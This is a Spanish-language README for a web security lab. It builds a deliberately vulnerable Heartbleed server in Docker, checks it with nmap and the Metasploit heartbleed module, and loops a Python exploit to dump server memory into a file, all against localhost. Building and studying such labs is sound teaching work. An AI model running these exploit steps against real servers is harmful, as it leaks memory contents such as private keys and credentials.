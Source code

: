 # Seguridad de Aplicaciones Web

## Pasos para levantar el entorno de pruebas

Construir la imagen en Docker:

```bash	
docker build -t heartbleed-image-websegapp .
```

Crear un contenedor en base a la imagen abriendo los puertos y exponiendo los volumenes internos:

```bash
docker run  -p 443:443 --name heartbleed-server -d -it heartbleed-image-websegapp
```

## Verificar si el servidor es vulnerable 

Con NMAP:

```bash
nmap -sV -p 443 --script ssl-heartbleed localhost
```

Con MSF:
```bash
msfconsole
```

Usamos el plugin para explotar la vulnerabilidad:
```bash
use auxiliary/scanner/ssl/openssl_heartbleed
```

Establecer el servidor victima y ponemos en modo dump el plugin:

```bash
set RHOSTS localhost
set verbose true
```

Explotamos la vulnerabilidad:

```bash
exploit
```

## Hacer dump de la memoria del servidor HTTP vulnerable:

Requisito: tener instalado python 2.7

Creamos el archivo donde vamos a hacer dump del servidor y vemos que va pasando en vivo:

```bash
truncate -s0 /tmp/heartbleed.out && tail -f /tmp/heartbleed.out
```

Ejecutamos el exploit cada un segundo y volcamos el contenido:

```bash
while true; do python heartbleed.py localhost >> /tmp/heartbleed.out; sleep 1; done
```

## License
[MIT](https://choosealicense.com/licenses/mit/)

